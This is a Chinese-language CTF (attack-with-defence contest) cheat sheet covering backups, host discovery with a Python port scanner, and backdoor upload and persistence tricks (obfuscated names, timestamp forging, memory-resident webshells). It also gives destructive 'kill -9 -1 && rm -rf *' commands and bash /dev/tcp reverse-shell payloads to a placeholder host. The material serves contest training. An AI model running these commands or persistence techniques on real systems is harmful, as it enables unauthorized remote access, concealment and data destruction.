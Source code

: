 
# 环境

## 靶机环境

如果没有安装python，可以尝试安装到有权限写入的目录：
```sh
./configure --prefix=/home/ctf/python32  
make  
make install
```



# 命令
通常用于自动化脚本编写。
#### scp
基于ssh

```sh
# 将本地文件上传到 远程ssh server 端口为12345的目录上 
scp -P 12345 /home/1.zip root@127.0.0.1:/home
```


# 防御

## 源码备份

```sh
# zip
zip -r xxx.zip ./*
unzip xxx.zip -d

# tar
tar -cvf xxx.tar ./* -p # -p 保持文件权限一致
tar -xvf xxx.tar -C /home/ctf/xxx

```

备份到本地、以及源站上`/home/xxx`目录一份，不建议备份到`/tmp`，因为攻击者通过`/var/www/`攻击的访问权限是在`/tmp`以及`/tmp/www/html`目录下
## 信息收集


```sh
id # 获取用户所在组。根据权限的不同，进行网站恢复、不死马的查杀。
ls -l /var/www/html # 获取权限 所属者 所属组
# 权限格式：所有者权限 组权限 其他用户权限


```


### 主机发现

AWD主机发现
    线下
        大家处于一个网段，根据ip划分
        nmap
    线上
        根据端口划分(web\ssh),可能有其他比赛
        scan.py

区分选手和裁判：
        check
        down
        waf
```python
import requests

ip = 'http://61.147.171.104:'

for i in range(51200,51230):
    url = ip + str(i)
    try:
        req = requests.get(url, timeout=1).text
        if '网络探测demo' in req:
            print(url + '    success')
        else:
            print(url + '    fail')
    except:
        print(url + '    error')

```

### 目录发现

```sh
# 2是标准错误输出，输出到一个不存在的路径，可以随便填，优雅点就填下面的
find / -name 'xxx.php' 2> /dev/null  # 注意2>必须写在一起

```

## 主机恢复


```sh
# 以www-data用户执行 （比如使用蚁剑，或自建相关木马脚本然后通过网站执行）
kill -9 -1  # 终止你拥有的全部进程
rm -rf *
# 恢复
```


## 攻击

### 上传

利用内置后门
`file_put_contents('xx', base64_decode(base64_encode('TrojansContent')))`
### 防利用

#### 后门加密码

- 写死密码
- 动态密码
- MD5
- RSA密码
#### 流量混淆

难以让别人通过流量监控知道如何攻击

### 防检测防删除
#### 混淆
- 文件名混淆、或假名
#### 困难删除
- 命名：使用`     .php`或`-- -.php`等不太好手动删除的文件（但可以直接通过FTP工具删除）
- 

#### 时间变化
 有三种时间：
- atime (access time)
- ctime (change time)
- mtime (modified time)

```sh
stat <file> # 可以查看文件状态信息，包括三种时间。
touch -r <oldFile> <newFile> # 可以将`oldFile`和`newFile`时间戳同步，但changeTime似乎会修改失败。
```

#### 不死马
首先需要www-data用户对目录有写权限去上传文件。
免杀
##### 内存马
自身执行一次后，把自己删除，自身已经驻留在内存之中，可以不断执行一些复活等操作，来进行权限维持。

**防御方法**
- 使用内存马的相同的用户，运行`kill -9 -1 && rm -rf *`
- 使用竞争，写相同的复活脚本，同名文件，对内容进行篡改，然后复活时间小于等于内存马，可以使其失效。

### 反弹Shell
正向连接是指由客户端向服务端发起连接请求，而反向连接则是相反。在反弹shell (reverse shell) 中，由客户端监听指定的 TCP/UDP 端口，由服务端发起连接请求到该端口，建立起shell连接。与常见的 Telnet、ssh等shell相比，不同的是由服务端主动发起。
#### 适用情况
- 由于防火墙等的控制访问策略，客户端无法访问服务端，但服务端可以向外网发起请求
- IP会动态变化，攻击机无法直接连接
- 向局域网中的主机散播木马病毒等，网络环境未知的情况下
- 服务端的AV对正向连接的流量检测非常严格，但是对出网流量校验不足
#### 过程

> 不同的操作系统可能不太一样
> 在不同的反弹shell方式中，都需要攻击者（客户端）进行监听，下文将不再赘述，仅讲述不同的反弹方式
> 需要目标机触发payload造成反弹shell

```sh
# 客户端监听端口
nc -l 9999

# Netcat 是 Linux 系统下常用的网络工具，当然也有Windows版本，在 Linux 下使用命令 `nc`，前面的端口监听就是使用 Netcat

# payload1 
bash -i >& /dev/tcp/Your_IP/Your_Port 0>&1 
# payload2 
bash -c "bash -i >& /dev/tcp/Your_IP/Your_Port 0>&1"

#`/dev/tcp` is a virtual device file in Unix-like systems that allows programs to access TCP/IP sockets as if they were regular files. 
#`>&` is a Bash operator used for redirecting output and input. 
#`0>&1` redirects standard input (0) to standard output (1).

```



# Linux易忽略点

#### 反引号命令执行 \`\` 
在Linux中，反引号（\`）用于将其中的命令执行结果以参数形式（非字符串）展开（或者说是将结果替换到命令），因此它是最先执行的，展开后才轮到bash去处理整段命令。
```sh
echo `echo 123` # 执行完里面的内容，直接以参数展开，然后变为了echo 123，这时才轮到babsh执行这段命令
echo $(ls) # 除了反引号，也可以使用$()来实现相同的效果
```


#### 重定向符号

- `>`：将echo命令的输出`覆盖写入`到指定文件，如果文件不存在则创建文件。
- `>>`：将echo命令的输出`追加写入`到指定文件，如果文件不存在则创建文件。
- `2>`：将echo命令的错误输出覆盖写入到指定文件。
- `2>>`：将echo命令的错误输出追加写入到指定文件。
- `&>` 或 `&>>`：将echo命令的标准输出和错误输出合并后写入到指定文件。
```sh
echo "How are you?" >> output.txt # 命令的输出追加到文件末尾
echo "Error occurred." 2> error.txt # 错误输出写入文件
```

